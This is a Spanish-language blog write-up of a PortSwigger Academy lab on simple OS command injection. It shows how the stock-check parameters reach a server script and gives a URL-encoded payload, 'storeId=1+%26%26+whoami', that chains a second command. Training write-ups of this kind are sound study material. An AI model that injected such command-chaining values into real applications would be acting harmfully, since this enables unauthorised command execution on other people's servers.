

+++
author = "Alux"
title = "Portswigger Academy Learning Path: OS Command Injection Lab 1"
date = "2021-12-01"
description = "Lab: OS command injection, simple case"
tags = [
    "command injection",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: OS command injection, simple case

En este <cite>laboratorio[^1]</cite>la finalidad es obtener ejecucion de comandos en el sitio web, ejecutando `whoami`


## Reconocimiento

La web muestra un post el cual contiene contenido y una imagen.


Hasta ahi todo bien pero hace una peticion que checa el stock que existe para posteriormente dar la respuesta. Aca lo mas seguro es que realice el proceso desde un script y lo ejecute el propio programa pasandole los parametros pero no hace un filtrado de los datos que nosotros ingresemos. Enviamos los parametros de productId y storeId


El tipo de ejecucion que hace es:

```bash
stockreport.pl 1 1
```

## Explotacion

Lo que haremos es inyectar otros parametros para poder ejecutar otros comandos, y queremos ejecutar la siguiente consulta para que nos devuelva el nombre del usuario que esta ejecutando el script

```bash
stockreport.pl 1 1 && whoami
```
Por lo que la peticion quedaria asi (codificada en formato URL)

```
productId=1&storeId=1+%26%26+whoami
```

Y obtenemos la ejecucion de comandos en el servidor.


Y con esto hemos resuelto el lab




[^1]: [Laboratorio](https://portswigger.net/web-security/os-command-injection/lab-simple)